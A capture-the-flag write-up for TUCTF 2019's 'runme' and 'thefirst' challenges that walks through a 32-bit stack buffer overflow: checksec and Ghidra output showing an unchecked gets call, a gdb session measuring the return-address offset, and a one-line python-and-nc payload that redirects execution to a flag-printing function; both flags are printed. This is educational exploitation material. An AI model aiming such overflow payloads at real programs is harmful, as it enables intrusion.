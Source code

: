 # Tuctf 2019 pwn / re

This writeup contains two seperate writeups for `runme`, and `thefirst`. If you want to learn more about binary exploitation / reverse engineering, checkout `https://github.com/guyinatuxedo/nightmare`.

## runme

We just have to run this one:

```
$	./runme 
Enter 'flag'
> flag
TUCTF{7h4nk5_f0r_c0mp371n6._H4v3_fun,_4nd_600d_luck}
```

## thefirst

This is a pretty simple buffer overflow challenge. Checkout `https://github.com/guyinatuxedo/nightmare/tree/master/modules/05-bof_callfunction` for more details than what's below.

Start off, this is the binary:

```
$	pwn checksec thefirst 
[*] '/home/guyinatuxedo/Desktop/restuctf/thefirst'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$	file thefirst 
thefirst: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=d5cdb22c21ed1fe37f1d5d30ba2ddb7c03e34e9a, for GNU/Linux 3.2.0, not stripped
$	./thefirst 
Let's see what you can do
> 0000000000000000000000000000000000000000000000000000000
Segmentation fault (core dumped)
```

Looks like it has a buffer overflow. Checking the main function in ghidra confirms it uses `gets`:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  char vulnBuf [16];
  
  setvbuf(stdout,(char *)0x0,2,0x14);
  setvbuf(stdin,(char *)0x0,2,0x14);
  printf("Let\'s see what you can do\n> ");
  gets(vulnBuf);
  return 0;
}
```

Take a quick look in gdb to see what the offset is from the start of our input to the return address:

```
gef➤  b *0x804927b
Breakpoint 1 at 0x804927b
gef➤  r
Starting program: /home/guyinatuxedo/Desktop/restuctf/thefirst 
Let's see what you can do
> 15935728

Breakpoint 1, 0x0804927b in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd004  →  "15935728"
$ebx   : 0x0804c000  →  0x0804bf0c  →  0x00000001
$ecx   : 0xf7fb05c0  →  0xfbad208b
$edx   : 0xf7fb201c  →  0x00000000
$esp   : 0xffffd000  →  0xffffd004  →  "15935728"
$ebp   : 0xffffd018  →  0x00000000
$esi   : 0xf7fb0000  →  0x001dbd6c
$edi   : 0xf7fb0000  →  0x001dbd6c
$eip   : 0x0804927b  →  <main+92> add esp, 0x4
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd000│+0x0000: 0xffffd004  →  "15935728"	 ← $esp
0xffffd004│+0x0004: "15935728"
0xffffd008│+0x0008: "5728"
0xffffd00c│+0x000c: 0x00000000
0xffffd010│+0x0010: 0xf7fb0000  →  0x001dbd6c
0xffffd014│+0x0014: 0x00000000
0xffffd018│+0x0018: 0x00000000	 ← $ebp
0xffffd01c│+0x001c: 0xf7df2751  →  <__libc_start_main+241> add esp, 0x10
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049272 <main+83>        lea    eax, [ebp-0x14]
    0x8049275 <main+86>        push   eax
    0x8049276 <main+87>        call   0x80490a0 <gets@plt>
 →  0x804927b <main+92>        add    esp, 0x4
    0x804927e <main+95>        mov    eax, 0x0
    0x8049283 <main+100>       mov    ebx, DWORD PTR [ebp-0x4]
    0x8049286 <main+103>       leave  
    0x8049287 <main+104>       ret    
    0x8049288 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "thefirst", stopped, reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804927b → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd004 - 0xffffd00c  →   "15935728" 
gef➤  i f
Stack level 0, frame at 0xffffd020:
 eip = 0x804927b in main; saved eip = 0xf7df2751
 Arglist at 0xffffcffc, args: 
 Locals at 0xffffcffc, Previous frame's sp is 0xffffd020
 Saved registers:
  ebx at 0xffffd014, ebp at 0xffffd018, eip at 0xffffd01c
gef➤  q
```

So we can see that the offset is `0xffffd01c - 0xffffd004 = 0x18`. We also see that there is a `printFlag` function at `0x080491f6`:

```
void printFlag(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0xe05));
  return;
}
```

That gives us everything we need to solve this challenge:

```
$	python -c 'print "0"*0x18 + "\xf6\x91\x04\x08"'| nc chal.tuctf.com 30508
Let's see what you can do
> TUCTF{0n3_d0wn..._50_m4ny_70_60}
```